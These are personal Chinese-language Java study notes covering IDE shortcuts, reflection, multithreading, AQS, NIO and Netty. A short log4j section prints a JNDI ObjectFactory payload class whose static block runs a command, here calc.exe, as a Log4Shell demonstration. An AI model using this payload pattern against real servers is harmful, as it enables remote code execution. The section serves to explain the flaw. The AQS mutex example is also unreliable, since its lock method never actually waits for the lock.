# JAVA

## 快捷键

| Alt + Insert     | 代码自动生成，如生成对象的 set / get 方法，构造函数，toString() 等 |
| ---------------- | ------------------------------------------------------------ |
| Alt + Enter      | 提供快速修复选择，光标放在的位置不同提示的结果也不同         |
| Ctrl + O         | 选择可重写的方法                                             |
| Shift + Enter    | 开始新一行。光标所在行下空出一行，光标定位到新行位置         |
| Ctrl + Alt + T   | 对选中的代码弹出环绕选项弹出层 （比如增加try-catch块）       |
| Ctrl + Shift + / | 代码块注释                                                   |
| Ctrl + Shift + U | 对选中的代码进行大 / 小写轮流转换 （必备）                   |
| ctrl+H           | 生成类图                                                     |


缩写

| psvm | public static void main(String[] args){} |
| ---- | ---------------------------------------- |
| sout | System.out.println()                     |
| souf | System.out.printf()                      |
| fori | for (int i = 0; i < ; i++) { }           |


## 漏洞

### log4j漏洞

jndi：java命名和目录接口，通过jndi可以在网络上查找对应名字的类等资源。

==该漏洞利用log4j的递归解析，使得jdni触发，并且导致被攻击服务器从其他不安全的地方下载了class文件到本地执行==




```java
public class BugHa implements ObjectFactory{
    static {
        System.out.println("黑客入侵");
        try {
            Process p  = Runtime.getRuntime().exec("calc.exe");
            p.waitFor();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("黑客植入的class");
        return new BugHa();
    }
}
```


## 基础

### Object

所有类的超类



#### equals和hashcode

equals默认是比较两个对象实例的引用，但我们平时更多的用到比较两个对象逻辑上是否相同

那么就需要重写equals方法，一般ide内置了重写这种方法

并且针对哈希表这种存储结构，两个对象在逻辑上相同，那么其hashcode以应该相同，不然的话存到hash表中的数据会因为hashcode不一样而再也找不到。

```java
 @Override
    public boolean equals(Object o) {
        if (this == o) return true;
        if (!(o instanceof Bread)) return false;
        Bread bread = (Bread) o;
        return Objects.equals(color, bread.color) &&
                Objects.equals(taste, bread.taste);
    }

@Override
    public int hashCode() {

        return Objects.hash(color, taste);
    }
```


#### compareTo和Compartor

compareTo是类继承了Comparble排序接口，相当于内部比较器

Compartor是比较器接口，相当于外部比较器


```java
    public static void main(String[] args) {
        Bread bread = new Bread(5,"read");
        Bread bread1 = new Bread(2,"read");
        Bread bread2 = new Bread(1,"read");
        List<Bread> list = new ArrayList<>();
        list.add(bread);
        list.add(bread1);
        list.add(bread2);
        System.out.println(list);
        Collections.sort(list);
        System.out.println(list);
    }
}
@ToString
class Bread implements Comparable{
    @Override
    public int compareTo(Object o) {
        Bread bread = (Bread)o;
        return this.price>bread.price?1:-1;
    }

    private int price;
```

```java
Comparator<Bread> objectComparator = new Comparator<Bread>(){
            @Override
            public int compare(Bread o1, Bread o2) {
                return o1.getPrice()>o2.getPrice()?1:-1;
            }
        };
        Collections.sort(list,objectComparator);
```


#### Collection和Colletions

Collection是集合类上层接口



Colletions是集合类帮助类，里面写好了很多帮助方法，类似于Executors类


#### Serializable

记住网络传输java对象一定要实现Serializable


Serializable接口是序列化接口，何为序列化

序列化就是把java对象转换为字节流对象方便在网络上传输

==本质上Serializable只是一个标识，用户层面只需要implements就可以了，实际是告诉jvm来处理==

java建议用户需要自己顶一个serialVersionUID变量在类中，当然自己不定义java也会默认给一个，但是默认的对class细节敏感，反序列化时候会比较两个类的序列化id


##### 序列化

序列化在网络协议模型中在OSI中是展示层，展示层主要功能是把应用层对象转换成一段连续的二进制串。

在TCP/IP协议中是应用层的一部分


### 代理

1. 静态代理（每对一个对象进行代理就需要写一个代理类）
2. 如果加入容器的目标对象有实现接口,用JDK代理
3. 如果目标对象没有实现接口,用Cglib代理


### 泛型

```java
/**
第一个T代表泛型
第二个T代表返回类型
第三个代表传入的参数必须是泛型对应的类型
**/
private <T> T getStudent(List<T> list){
 	return ;
}
```


### 反射和注解

#### 注解

##### 元注解

元注解的作用就是注解其他注解的注解，java定义了4个元注解

包括@Target、@Rentention、@Documented、@Inherited

| @Target     | 描述注解的范围            |
| ----------- | ------------------------- |
| @Rentention | 表示注解生命周期          |
| @Documented | 该注解是否保存在javadoc中 |
| @Inherited  | 是否可以被继承            |


定义注解

```java
public class Test {

    @MyAnnoation
    public void test(){

    }
}

@Target(ElementType.METHOD)
@Retention(RetentionPolicy.RUNTIME)
@interface MyAnnoation{
    String name() default "";
}
```

注解实际是需要反射配合使用


#### 反射

有三种方法可以获得class对象

```
//根据类名
Person.class
//根据类实例
person.getClass()
//根据全类名
Class.forName("com.Person")
```


##### 类的加载

1. 加载：把class文件加载到内存中，并将静态数据转换成方法区中，生产Class对象
2. 链接：将java二进制代码合并到jvm中
   1. 验证：确保类信息符合规范
   2. 准备，为类变量分配内存，设置默认值，在方法区中分配
   3. 解析：将符号引用转换成直接引用
3. 初始化：
   1. 执行类初始化器<clinit>：**所有的类变量初始化语句和类型的静态初始化器**static前缀
   2. 当初始化一个类时候，如果父类没有初始化，先初始化父类


类何时初始化

1、主动引用：发生类初始化

主要有new对象和反射加载

2、被动引用：不发生初始化

子类调用父类类常量

创建类数组

访问常量

```java
public class Test {
    public static void main(String[] args) throws Exception{
        System.out.println(Person.a);
    }

}

class Person{

    static {
        System.out.println("被初始化");
    }
    private String name;
    private int age;

    static final int a =5;

}
```


创建对象

```java
 Class<Person> personClass = Person.class;
        //通过class创建对象
        Person person = personClass.newInstance();
        System.out.println(person);
        //通过构造函数创建对象
        Constructor<Person> declaredConstructor = personClass.getDeclaredConstructor(String.class, int.class);
        Person person1 = declaredConstructor.newInstance("留言", 5);
```


通过反射获取方法并调用

```java
		Person person = personClass.newInstance();
        Method setName = personClass.getMethod("setName", String.class);
        setName.invoke(person,"留言11");
        System.out.println(person);
```


通过反射获得注解信息

```
Class<Person> personClass = Person.class;
        //获得类上的注解
        MyAnnoation annotation = personClass.getAnnotation(MyAnnoation.class);
        System.out.println(annotation.value());
        //获得属性上的注解
        Field[] declaredFields = personClass.getDeclaredFields();
        for (Field field:declaredFields){
            MyFiled myFiled = field.getAnnotation(MyFiled.class);
            System.out.println("相加"+(myFiled.a()+myFiled.b()));
        }
        
        
        
        
 @MyAnnoation("liquid")
class Person{
    @MyFiled(a=3,b=3)
    private String name;
    @MyFiled(a=4,b=4)
    private int age;
    public Person(){

    }
    public Person(String name,int age){
        this.name = name;
        this.age = age;
    }

}


@Target(ElementType.TYPE)
@Retention(RetentionPolicy.RUNTIME)
@interface MyAnnoation{
    String value() default "";
}

@Target(ElementType.FIELD)
@Retention(RetentionPolicy.RUNTIME)
@interface MyFiled{
    int a();
    int b();
}
```


### 多线程

#### 进程和线程

| 进程 | 操作系统动态执行的基本单元，既是基本的分配单元，也是基本的执行单元 |
| ---- | ------------------------------------------------------------ |
| 线程 | 作为时间调度的基本单元，共享进程内的资源                     |


#### 线程实现

java中实现线程有两种方式

- 实现Runnable接口

  ```java
  public class ThreadRunn{
  
      public static void main(String[] args) {
          new Thread(new NewRunnable()).start();
      }
  }
  
  class NewRunnable implements Runnable{
      @Override
      public void run() {
          System.out.println("任务执行");
      }
  }
  ```

- 继承Thread重写run（）

  ```java
  public class NewThread extends Thread {
      public static void main(String[] args) {
          new NewThread().start();
      }
  
      @Override
      public void run() {
          System.out.println("继承Thread");
      }
  }
  ```

  *一般来说实现Runnable是更好的选择，可以提高程序的扩展性和灵活性。*

  

  Thread类用来管理线程，如设置线程优先级、设置Daemon属性，读取线程名字和ID

  Thread类默认实现了Runnable接口，并将其构造方法的重载形式允许传入Runnable接口对象作为任务

  Thread在调用start()会触发jvm底层创建新线程执行run（）

  ```
  public class Thread implements Runnable{
  	private Runnable target;
  	public void run() {
          if (target != null) {
              target.run();
          }
      }
  }
  ```


#### 线程状态

```java
public enum State {
	NEW,
	RUNNABLE,
	BLOCKED,
	WAITING,
	TIMED_WAITING,
	TERMINATED;
}
```

各状态区别：

1. Thread.sleep()不会释放对象的锁
2. Object.wait()释放锁和CPU
3. BLOCKED状态使当前线程阻塞，会占有CPU等待抢占锁
4. LockSupport.park(）没有使用锁，不占用CPU




#### 线程安全

为了解决多线程下资源的竞争问题，java提出了一些方法来解决

##### synchronized

基于java底层对每个对象设置了一个监视器锁，当一个线程获得该对象监视器锁后，其他线程无法获得，只有等待。synchronized是一个排他锁


从下面结果可以看到同步方法与非同步方法互相不影响，而同步方法之间会因为一个正在执行，另外一个无法执行

```java
public class ClockTest {
    public static void main(String[] args) {
        Clock clock = new Clock(10);
        new Thread(()->{
            clock.timeout();
        }).start();
        new Thread(()->{
            clock.timeUp();
        }).start();
        new Thread(()->{
            clock.tick();
        }).start();
    }
}
class Clock {

    private int start;

    public Clock(int start) {
        this.start = start;
    }

    public  void timeout(){
        synchronized (this){
            while (start>0){
                System.out.println(Thread.currentThread().getId()+"倒计时:"+start--);
            }
        }
    }

    public  void timeUp(){
        synchronized (this){
            while (start<10){
                System.out.println(Thread.currentThread().getId()+"正计时"+start++);
            }
        }
    }

    public void tick(){
        System.out.println("进入tick");
        while (true){
            System.out.println("ticking");
            try {
                TimeUnit.SECONDS.sleep(1);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
        }
    }

}


11倒计时:10
11倒计时:9
11倒计时:8
11倒计时:7
11倒计时:6
11倒计时:5
11倒计时:4
11倒计时:3
11倒计时:2
11倒计时:1
12正计时0
进入tick
ticking
12正计时1
12正计时2
12正计时3
12正计时4
12正计时5
12正计时6
12正计时7
12正计时8
12正计时9
ticking
ticking
ticking
```


##### jdk常见安全类型

###### vector和arraylist

Vector是线程安全的集合，底层是静态数组，所有方法都加了同步，在高并发下性能很低

ArrayList是jdk为了优化Vector，取消了所有同步方法，底层依然使用静态数组，但并发下会出错


###### StringBuffer和StringBuilder

StringBuffer中的方法都使用了同步方法

StringBuilder取消了同步机制


###### HashMap和ConcurrentHashMap

在jdk1.8中HashMap由数组和链表组成，当链表长度超过8时候，链表变成红黑树

HashMap没有同步机制，并发下不安全

ConcurrentHashMap使用同步代码块，用于增加线程安全性


#### 线程通信

使用Object的notify和wait方法

使用这两个方法前都需要获得object对象的监视器锁

```java
public class Example {
    public static void main(String[] args) {
        Object object = new Object();
        new Thread(()->{
            for (int i = 0; i < 5; i++) {
                System.out.println(Thread.currentThread().getId()+",i="+i);
                if(i==3){
                    synchronized (object){
                        try {
                            object.wait();
                        } catch (InterruptedException e) {
                            e.printStackTrace();
                        }
                    }
                }
            }
        }).start();
        new Thread(()->{
            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }
            synchronized (object){
                System.out.println("唤醒计数器");
                object.notify();
            }
        }).start();
    }
}
```


join()方法会让另外一个线程介入当前线程，只有线程执行完或者超时才会回到当前线程继续执行，并且join方法底层是调用了wait方法，所以线程是进入了waiting状态的


#### CountDownLatch计数器

java.util.concurrent的包下的类,构造函数输入一个数字后，等待数字对应的任务执行完毕，然后执行最后一个线程



包含了await方法	阻塞当前任务，只有count为0时候，才不会阻塞

​			countDown 每执行完一个任务就减少1

​			getCount

```java
public class CarAssembleExample {
    public static void main(String[] args) {
        CountDownLatch countDownLatch = new CountDownLatch(10);
        LastTask lastTask = new LastTask(countDownLatch);
        new Thread(lastTask).start();
        for (int i = 0; i < 10 ; i++) {
            WorkTask workTask = new WorkTask(countDownLatch,i);
            new Thread(workTask).start();
        }
    }
}
class WorkTask implements Runnable{
    private CountDownLatch countDownLatch;
    private int id;
    public WorkTask(CountDownLatch countDownLatch,int id) {
        this.countDownLatch = countDownLatch;
        this.id = id;
    }

    @Override
    public void run() {
        try {
            TimeUnit.SECONDS.sleep(1);
        } catch (Exception e) {
            e.printStackTrace();
        }
        countDownLatch.countDown();
        System.out.println("id"+id+"配件生产完成");

    }
}
class LastTask implements Runnable{
    private CountDownLatch countDownLatch;

    public LastTask(CountDownLatch countDownLatch) {
        this.countDownLatch = countDownLatch;
    }
    @Override
    public void run() {
        try {
            System.out.println("等待其他配件生产");
            countDownLatch.await();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
        System.out.println("最后组装完毕");
    }
}
```


#### CyclicBarrer

屏障，只有所有线程都调用了await()方法后才能允许下一步工作，用处上来说与CountDownLatch其实一样


#### Semaphore

信号灯，通过设置多个凭证，线程需要通过acquire获取凭证，否则无法执行操作，持续等待，当执行完后release释放凭证

```java
public class SemaphoreTest {
    public static void main(String[] args) {
        Semaphore semaphore = new Semaphore(3);
        for (int i = 0; i < 10; i++) {
            new Thread(new Student(semaphore)).start();
        }
    }
}
class Student implements Runnable{
    private Semaphore semaphore;

    public Student(Semaphore semaphore) {
        this.semaphore = semaphore;
    }

    @Override
    public void run() {
        try {
            semaphore.acquire();
        } catch (InterruptedException e) {
            e.printStackTrace();
        }
        System.out.println(Thread.currentThread().getId()+"实验完成");
        semaphore.release();
    }
}
```


#### 死锁

必要条件

|           循环等待           |          一直持有          |
| :--------------------------: | :------------------------: |
|           互斥条件           |     资源只能一个人持有     |
|        资源不能被抢占        | 他人不能抢占已经占有的资源 |
| 线程持有资源并等待另一个资源 |      鱼和熊掌都想兼得      |


#### 线程池

ThreadPoolExecutor类最常用的底层线程类

包括了核心线程、阻塞队列和普通线程

当核心线程能满足任务时候创建对等的核心线程

当不能满足时候，放到阻塞队列，等待核心线程

当阻塞队列装慢后，创建普通线程来执行任务，普通线程执行完任务后关闭




##### Executor

线程层顶层接口，只定义了一个执行任务的方法

```java
public interface Executor {
    void execute(Runnable command);
}
```


ExecutorSerivce

在Executor基础上提供了生命周期的方法，供子类实现

```java
public interface ExecutorService extends Executor {
	void shutdown();
    List<Runnable> shutdownNow();
    boolean isTerminated();
    <T> Future<T> submit(Callable<T> task);
    等....
}
```

其中submit方法也是执行任务，只是起会返回Future对象回来，而execute没有返回值

并且submit的入参时Callable，而execute是Runnable


Callable接口提供了call方法调用来从任务中返回值出来

```java
public interface Callable<V> {
    V call() throws Exception;
}
```


Executors

工具类，可以创建各种线程池、线程工厂

线程池如下

| newFixedThreadPool      | 固定线程数量                                                 |
| ----------------------- | ------------------------------------------------------------ |
| newSingleThreadExecutor | 只有一个线程在处理                                           |
| newCachedThreadPool     | 核心线程为0，创建Int整形范围内的工作线程                     |
| newScheduledThreadPool  | 设置延时线程，该类自定义了ScheduledExecutorSerivce，并且将Runnable包装为ScheduledFutureTask，它继承了FutureTask类并且实现了RunnableScheduledTask |
| newWorkStealingPool     | 基于多核CPU，底层使用forkjoin来处理，上层类为ForkJoinPool    |


线程工厂

接口很简单就提供了一个创建线程的方法待子类实现

```java
public interface ThreadFactory {
    Thread newThread(Runnable r);
}
```


并且线程池在创建线程时候其实也是调用了线程工厂来创建的，只是一般都选择默认的线程工厂创建，在其中通过addWork()中的创建Worker构造函数来从线程工厂获取线程对象的

```java
w = new Worker(firstTask);

Worker(Runnable firstTask) {
            setState(-1); // inhibit interrupts until runWorker
            this.firstTask = firstTask;
            this.thread = getThreadFactory().newThread(this);
   }
```


案例如下根据简单工厂创建线程

```java
public static void main(String[] args) {
        ThreadFactory threadFactory = Executors.defaultThreadFactory();
        threadFactory.newThread(()->{
            System.out.println("新线程"+Thread.currentThread().getId());
        });
        System.out.println("主线程"+Thread.currentThread().getId());
    }
```


#### 锁

##### ReetrantLock

可重入锁，用法上与synchronized差不多

```java
class Lock1{
    private final ReentrantLock reentrantLock = new ReentrantLock();

    public void m1(){
        reentrantLock.lock();
        try {
            m2();
        }finally {
            reentrantLock.unlock();
        }
    }
```


与synchroinzed的比较

- 都是互斥锁具有独占性和排斥性
- ReetrantLock是显示，依赖于jdk，而synchronize是隐式，其是java底层内置的锁，依赖于jvm
- ReetrantLock更加灵活拥有扩展性
- ReetrantLock可以与多个监视器配合，而synchronize只能与一个监视器配合


##### Conditon

监视器对象，用法上与Object的wait()和notify一样

对应condition里面的await()和signal()


##### ReentrantReadWriteLock

内部定义了两个锁读锁和写锁，可以用来对数据的并发读写

```java
public class ReentrantReadWriteLock
        implements ReadWriteLock, java.io.Serializable {
    private final ReentrantReadWriteLock.ReadLock readerLock;
    private final ReentrantReadWriteLock.WriteLock writerLock;
```


​                  

#### 阻塞队列

| ArrayBlockingQueue  | 底层是数组，需要显示传入长度，是有界                         |
| ------------------- | ------------------------------------------------------------ |
| LinkedBlockingQueue | 底层是链表，不需要传入长度，是无界                           |
| SynchrouonsQueue    | 底层是空集合，没有长度，只有在插入线程和提取线程同时存在时候，才会传输数据，否则一直阻塞 |
| DelayQueue          | 无界阻塞队列，只有在延迟等待时间到达后才会添加到队列中，否则队列没有元素。实现了Delay接口，改接口继承了Comparble方法提供了排序，并且提供了一个getDelay方法，告知延期还有多长 |

ArrayBlockingQueue和LinkedBlockingQueue，LinkedBlockingQueue的并发性更好因为，他的put和take方法是有两个不同的锁来管理的，相互不影响，而ArrayBlockingQueue是由一个锁来管理两个方法。

```java
LinkedBlockingQueue
/** Lock held by take, poll, etc */
    private final ReentrantLock takeLock = new ReentrantLock();

    /** Wait queue for waiting takes */
    private final Condition notEmpty = takeLock.newCondition();

    /** Lock held by put, offer, etc */
    private final ReentrantLock putLock = new ReentrantLock();

    /** Wait queue for waiting puts */
    private final Condition notFull = putLock.newCondition();
```

阻塞队列在读写数据时候，当前线程阻塞状态使WAITING，当条件满足时候会自动唤醒


#### AQS

AQS全称为AbstractQueuedSynchronizer，该框架提供了一套同步管理通用机制

AQS对外暴露了state的值来同步状态，通过对变量使用volatile和方法CAS（compare and set）来保证同步

CAS依赖于CPU底层，适用于多线程下解决变量同步问题

volatile作用是让jvm读取和改变变量时候直接从主存中拿，而不用的情况下是从本地内存拿，而不是直接在主存读写。

```java
private volatile int state;
protected final int getState() {
        return state;
    }
 protected final void setState(int newState) {
        state = newState;
    }
protected final boolean compareAndSetState(int expect, int update) {
        // See below for intrinsics setup to support this
        return unsafe.compareAndSwapInt(this, stateOffset, expect, update);
    }
```

对于并发修改变量，volatile不起作用

| volatile           | synchronize      |
| ------------------ | ---------------- |
|                    | 解决独占性       |
| 线程同步轻量级实现 | 相对重量         |
| 不会阻塞           | 阻塞线程         |
| 只能修饰变量       | 修饰方法和代码块 |


下面是用AQS实现的简单互斥锁

```java
public class Mutux {
    public static void main(String[] args) {
        MyMutux myMutux = new MyMutux();
        ExecutorService pool = Executors.newCachedThreadPool();
        for (int i = 0; i < 100; i++) {
            pool.execute(()->{
                myMutux.lock();

                System.out.println(Thread.currentThread().getId());
                System.out.println(Thread.currentThread().getId()+"锁住当前线程");

                myMutux.unlock();
            });
        }

    }
}
class MyMutux {
    private final Sync sync = new Sync();

    class Sync extends AbstractQueuedSynchronizer {
        {
            this.setState(0);
        }
        @Override
        protected boolean tryAcquire(int arg) {
            return compareAndSetState(0, 1);
        }

        @Override
        protected boolean tryRelease(int arg) {
            setState(0);
            return true;
        }


    }
    public void lock() {
        if (!sync.tryAcquire(0));
    }

    public void unlock() {
        sync.tryRelease(0);
    }
}
```


#### ThreadLocal

用该类可以确保每个线程存取自己的相关信息


而下图的t.threadLocals是Thread类对象保存的ThreadLocalMap

```java
public T get() {
        Thread t = Thread.currentThread();
        ThreadLocalMap map = getMap(t);
        if (map != null) {
            ThreadLocalMap.Entry e = map.getEntry(this);
            if (e != null) {
                @SuppressWarnings("unchecked")
                T result = (T)e.value;
                return result;
            }
        }
        return setInitialValue();
        
ThreadLocalMap getMap(Thread t) {
        return t.threadLocals;
    }

```

ThreadLocalMap是静态类

```java
static class ThreadLocalMap {

        /**
         * The entries in this hash map extend WeakReference, using
         * its main ref field as the key (which is always a
         * ThreadLocal object).  Note that null keys (i.e. entry.get()
         * == null) mean that the key is no longer referenced, so the
         * entry can be expunged from table.  Such entries are referred to
         * as "stale entries" in the code that follows.
         */
        static class Entry extends WeakReference<ThreadLocal<?>> {
            /** The value associated with this ThreadLocal. */
            Object value;

            Entry(ThreadLocal<?> k, Object v) {
                super(k);
                value = v;
            }
        }
```


```java
public class ThreadLocalTest {
    public static void main(String[] args) {
        ThreadLocal<Integer> threadLocal = new ThreadLocal<>();
        ExecutorService pool = Executors.newCachedThreadPool();
        for (int i = 0; i < 5; i++) {
            pool.execute(()->{
                int rand = (int)(Math.random()*10);
                threadLocal.set(rand);
                System.out.println(Thread.currentThread().getId()+"  "+rand);
            });
        }
        for (int i = 0; i < 5; i++) {
            pool.execute(()->{
                System.out.println(Thread.currentThread().getId()+" "+threadLocal.get());
            });
        }
    }
}
```


### 网络编程

#### 异步阻塞

异步是指主线程调用后，由另外一个线程来实际执行

阻塞是指主线程需要等待子线程执行完了才能执行下面的步骤。更仔细的来说，子线程调用结果没有返回，主线程需要挂起等待结果


#### BIO

bio是阻塞的I/O，可以用在并发量不高的网络中


socket通信是网络编程的基本模型，与同步和异步无关，与阻塞和非租塞也无关

分为三步：1、建立连接；2、进行会话；3、关闭连接

基本代码

服务器开启端口，客户端连接端口

```java
#服务器
ServerSocket serverSocket = new ServerSocket(port);
Socket socket = serverSocket.accept();

#客户端
InetSocketAddress inetSocketAddress = new InetSocketAddress(ipAddr,port);
Socket socket = new Socket();
socket.connect(inetSocketAddress,30000);
```


完整的socket通信框架应该有超时设置

- 连接超时

  连接设置了3秒连接，超过了就断开

  ```java
  socket.connect(inetSocketAddress,30000);
  ```

- 读超时

  ```
  socket.setSoTimeout(20000);
  ```

- 写超时

  一般写超时是基于TCP重传机制，不需要自己再设置

  

#### NIO

NIO称为非阻塞式I/O，又称为多路复用

NIO由单线程、Selector、SelectionKey、ServerSocketChannel和SocketChannel组成

服务器开启监听接口后，绑定一个ServerSocketChannel，此只有一个用来处理连接请求与应答，收到连接后，创建SocketChannel来处理数据，以上两个SocketChannel都会有个一个对应的SelectionKey来作为凭证，Selector通过SelectionKey来选择对应通道执行操作


NIO又称为多路复用，能在高并发环境下提高CPU效率，减少线程之间的切换

nio下的read和write是非租塞的，系统通过selector的select方法来轮询检查是否有事件就绪（注意这里是阻塞的，没有事件的话会等地），就绪后就可以处理




NIO三大核心：buffer、channel和Selector

1. 每个Channel对应Buffer
2. 一个Selector对应一个线程，一个线程对应多个Channel
3. 执行哪个Channel由事件Event确定
4. Buffer本质就是内存块，底层是数组
5. 客户端不是把数据直接写到通道，同时客户端也不是直接从通道读取数据，而是把数据写到缓冲区再传到通道，或者从通道读取到缓冲区
6. Channel和Buffer都是双向的



##### Selector

多个Channel以事件的方式注册到Selector中，Selector按事件来进行相应处理,事件类型对应SelectionKey，根据SelctionKey来找到对应Channel


##### Buffer

java在NIO中引入的类型，重要属性

| mark     | 记录了当前标记索引下标       |
| -------- | ---------------------------- |
| position | 当前读取或者写入的位置       |
| limit    | 当前读入或可以写入的最多下标 |
| capacity | 表示当前数组容量大小         |
| array    | 保存当前存入元素             |


==ByteBuff是最重要的子类，本质是对字符数组的封装==

ByteBuffer.allocate()和ByteBuffer.wrap()对无效内容的字符数组创建的ByteBuffer是写模式，等待程序写入元素

对有效内容的时候是读模式，等待程序读取元素

ByteBuffer.flip()转换ByteBuffer为读模式，limit变成写模式下的position，并会把position值为0

ByteBuffer.clear()转换为写模式

ByteBuffer.hasRemaining()可以知道是否还有写模式的空间或者读模式数据可用


##### Channel

BIO中的流是单向的，而NIO中的Channel是双向的

常见的Channel子类有：

- FileChannel：用于文件数据读写
- DatagramChannel：用于UDP的数据读写
- ServerSocketChannel和SocketChannel用于TCP数据读写


用FIleChannel举个例子，往文件写入数据

```java
public class FileChannel01 {
    public static void main(String[] args) throws Exception{
        String msg = "Hello,Liquid";
        FileOutputStream fileOutputStream = new FileOutputStream("C:\\Users\\ASUS\\Desktop\\hello.txt");
        FileChannel channel = fileOutputStream.getChannel();

        ByteBuffer byteBuffer = ByteBuffer.allocate(1024);
        byteBuffer.put(msg.getBytes());

        byteBuffer.flip();
        channel.write(byteBuffer);

        fileOutputStream.close();

    }
}
```




#### Netty

BossGroup用来接收客户端连接，WorkerGroup用来处理的读写，并用pipeline管道中的handler来处理业务逻辑




##### 三个重要抽象组件

- Channel：代表Socket
  - NioSocketChannel重要子类
- EventLoop：处理连接生命周期中所发生的的事件
- ChannelFuture：异步通知




==ChannelHandler和ChannelPipeline==

ChannelHandler充当了处理入站和出站数据的逻辑容器

- ChannelHandlerAdapter
- ChannelInboundHandlerAdapter
- ChannelOutboundHandlerAdapter
- ChannleDuplexHandler


ChannelPipeline其实就是链表，连接ChannelHandler



##### 引导

引导类为应用程序网络层的配置提供了容器，涉及将一个进程绑定到指定端口（服务器），或者将一个进程连接到另一个运行在某个指定主机端口上的应用（客服端）

上面对应ServerBootStrap和BootStrap

==ServerBootStrap需要两个EventLoopGroup，而BootStrap只需要一个==

原因在于服务器有两组不同的Channel，一组用户绑定本地端口，一组用于处理客户端连接




##### EventLoop

事件循环，基本思想循环遍历处理所有的事件，本质是单线程执行器（维护了一个Selector），里面run方法处理Channel源源不断的数据

下面为EventLoop的类层次结构，基于NIO和并发API上建立

我们看到EventLoop是拥有了任务调度的能力的，并且可以实现了迭代器功能



Netty线程模型的性能在于对当前执行的Thread身份的确定，确定他是否分配给当前Channel以及他的EventLoop的那一线程

如果当前线程是，那么执行提交的代码块，如果不是，加入到队列中


###### fireChannelActive

在channel调用fireChannelActive会调用invokeChannelActive，里面查看下一个handler的eventLoop是不是当前的，如果是直接调用下一个handler，如果不是的话，就需要用下一个handler的eventLoop建立新线程来执行下一个handler

```java
public ChannelHandlerContext fireChannelActive() {
        invokeChannelActive(this.findContextInbound());
        return this;
    }

    static void invokeChannelActive(final AbstractChannelHandlerContext next) {
        EventExecutor executor = next.executor();
        if (executor.inEventLoop()) {
            next.invokeChannelActive();
        } else {
            executor.execute(new Runnable() {
                public void run() {
                    next.invokeChannelActive();
                }
            });
        }

    }
```


##### ByteBuf

Netty自己封装了ByteBuff，内部维护了读位置和写位置，不用像ByteBuff那样用flip来切换模式了

本质就是一个由不同的索引分布控制读访问和写访问的字节数组



###### 直接内存和堆内存

直接内存创建和销毁代价昂贵，但读写性能高，适合配合池化功能使用

直接内存对GC压力小，因为这部分内存不受jvm垃圾回收管理 


###### 池化

池化作用在于可以重用ByteBuf

- 没有池化，每次都要创建新的ByteBuf实例，这个操作对直接内存代价昂贵
- 重用ByteBuf提升分配效率
- 高并发时候，节约内存减少内存溢出


###### ByteBuf分配

ByteBufAllocator实现了池化功能

Unpooled缓冲区，创建的都是非池化的

```java
ByteBuf byteBuf = Unpooled.wrappedBuffer(bytes);
```


###### 零拷贝

可以快速高效的将数据从文件系统移动到网络接口，而不需要将其从内核空间复制到用户空间

如果当前以及创建了两个ByteBuf了，需要把他们两个合并，传统的需要复制他们两个值到一个新的ByteBuf，这之间会涉及到多次拷贝

而使用==CompositeByteBuf==合并两个ByteBuf的话就不需要复制了，相当于复用了两个ByteBuf缓冲区 


**slice**

因为slice是零拷贝，直接对原内存进行分割

如果按照下面的来传输两个切片，将在第一个切片发送后报错。

==原因==是writeInbound发送完数据后会自动释放slice和其对应的byteBuf内存，如果想要成功发送，需要添加一个retain（）在之前

```java
ByteBuf slice = byteBuf.slice(0, 50);
ByteBuf slice1 = byteBuf.slice(50, byteBuf.readableBytes() - 50);
byteBuf.retain();//使引用计数器加1，不被释放
embeddedChannel.writeInbound(slice);
embeddedChannel.writeInbound(slice1);
```


###### 优势

- 池化重用ByteBuf实例
- 读写指针分离，更方便简单
- 可以自动扩容
- 支持链式调用
- 体现了零拷贝


##### 粘包和半包

粘包：多个tcp包一起合并发送

- 原因：
  - 应用层接收方的Bytebuf太大了
  - tcp层的滑动窗口导致：接收方处理不及时且窗口足够大

半包：一个tcp包被分成了多次发送

- 原因：
  - 接收方的Bytebuf太小了
  - 滑动窗口：接收方窗口剩余大小不够容纳发送方的报文大小，只能先存储一点，导致半包

==本质是tcp基于流式协议，消息之间没有边界==


###### 滑动窗口

为什么有滑动窗口？

IP层不可靠，需要TCP层加确认机制来保证，早期发送方发送数据需要添加计时器，如果超时没有收到ACK就重传，这样每个包都需要等待ack确认，降低了通信的效率。

==引入了滑动窗口，窗口大小决定了无需等待应答就可以继续发送的最大值==，实际起到了缓冲区的作用，窗口内的数据才可以发送，当某个段的消息ack发送回来后，那么窗口就可以向后移动


###### 解决

- 短连接：发送方发送完消息就断开，可以解决粘包问题，但耗费连接资源
- FixLengthFrameDecoder：可以固定接受的长度，但是数据本身长度不够的话，会填充无用的字符
- LinedBasedFrameDecoder：使用换行符来分割数据
- LengthFiledBasedFrameDecoder：会在真实数据前面添加消息的长度


**LengthFiledBasedFrameDecoder**

参数：

- maxFrameLength:帧的最大长度
- lengthFieldOffset：保存数据长度的字段位置
- lengthFiledLength：长度字段的空间大小
- lengthAdjustment：长度域的偏移量矫正
- initialBytesToStrip：剔除长度前面的数据

如果出现了半包现象如下

```java
 ByteBuf slice = byteBuf.slice(0, 50);
 ByteBuf slice1 = byteBuf.slice(50, byteBuf.readableBytes() - 50);
//那么系统会报错
//添加new LengthFieldBasedFrameDecoder(1024,12,4,0,0)
//就会正常接受到包，并且数据没有传输完全的情况，不会给下一个handler
```


##### write和close

write方法常用有两种ctx.write()和ctx.channel().write()

ctx.write()是从当前handler写到离他最近的out handler

而ctx.channel().write()是从流水线最后一直写到头位置

```java
//用ctx.channel().write()，从尾部开始
public final ChannelFuture write(Object msg) {
        return this.tail.write(msg);
    }
//用ctx.write()
 private void write(Object msg, boolean flush, ChannelPromise promise) {
        AbstractChannelHandlerContext next = this.findContextOutbound();
        Object m = this.pipeline.touch(msg, next);
        EventExecutor executor = next.executor();
        if (executor.inEventLoop()) {
            if (flush) {
                next.invokeWriteAndFlush(m, promise);
            } else {
                next.invokeWrite(m, promise);
            }
        }
```

close方法同理


##### Channel和ChannelHandler生命周期

Channel生命周期包括

1. ChannelUnregistered
2. ChannelRegistered
3. ChannelActive（Channel处于连接状态，可以接受和发送数据）
4. ChannelInactive


ChannelHandler生命周期

